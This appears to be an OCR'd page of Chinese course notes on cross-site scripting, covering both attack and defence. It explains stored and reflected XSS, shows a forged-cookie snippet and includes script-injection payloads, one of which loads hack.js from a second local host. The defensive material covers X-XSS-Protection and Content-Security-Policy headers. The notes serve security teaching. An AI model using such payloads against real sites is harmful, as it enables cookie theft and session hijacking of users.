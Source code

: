 ~~~js
// 伪造 cookie ⼊侵 chrome 
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUz NTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
~~~

- 存储型 （直接攻击数据库，然后其他人执行时会直接发布） 黑客输入一个含有病毒的评论，存储到DB后，其他正常用户读取时中毒，获取用户的浏览器 cookie，然后继续传播

~~~html
// 评论
<script>alert(1)</script>

// 跨站脚本注⼊
我来了<script src="http://localhost:4000/hack.js"></script>
~~~

### XSS攻击的危害 - Scripting能干啥就能干啥

获取⻚面数据 获取Cookies 劫持前端逻辑

发送请求

偷取网站的任意数据

偷取⽤户的资料

偷取⽤户的秘密和登录态

欺骗⽤户

### XSS 防范⼿段

#### HEAD

0 禁止XSS过滤

1 启⽤XSS过滤(通常浏览器器是默认的)。 如果检测到跨站脚本攻击，浏览器器将清除⻚页⾯面(删除不不 安全的部分)

~~~js
ctx.set('X-XSS-Protection', 0) // 禁⽌止XSS过滤
// http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不⾏ 了
~~~

1;mode=block 启⽤XSS过滤。 如果检测到攻击，浏览器器将不不会清除⻚页⾯面，⽽而是阻⽌止⻚页⾯面加载。 1; report= (Chromium only)

启⽤XSS过滤。 如果检测到跨站脚本攻击，浏览器器将清除⻚页⾯面并使⽤CSP report-uri 指令的功 能发送违规报告。

#### CSP

内容安全策略略 (CSP, Content Security Policy) 是⼀一个附加的安全层，⽤于帮助检测和缓解某 些类型的攻击，包括跨站脚本 (XSS) 和数据注⼊等攻击。 这些攻击可⽤于实现从数据窃取到 ⽹网站破坏或作为恶意软件分发版本等⽤途。

CSP 本质上就是建⽴立⽩名单，开发者明确告诉浏览器器哪些外部资源可以加载和执⾏。我们只 需要配置规则，如何拦截是由浏览器器⾃自⼰己实现的。我们可以通过这种⽅式来尽量量减少 XSS 攻 击。

~~~js
// 只允许加载本站资源
Content-Security-Policy: default-src 'self'

// 只允许加载 HTTPS 协议图⽚
Content-Security-Policy: img-src https://*

// 不不允许加载任何来源框架
Content-Security-Policy: child-src 'none'

ctx.set('Content-Security-Policy', "default-src 'self'")
// 尝试⼀一下外部资源不不能加载
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
~~~
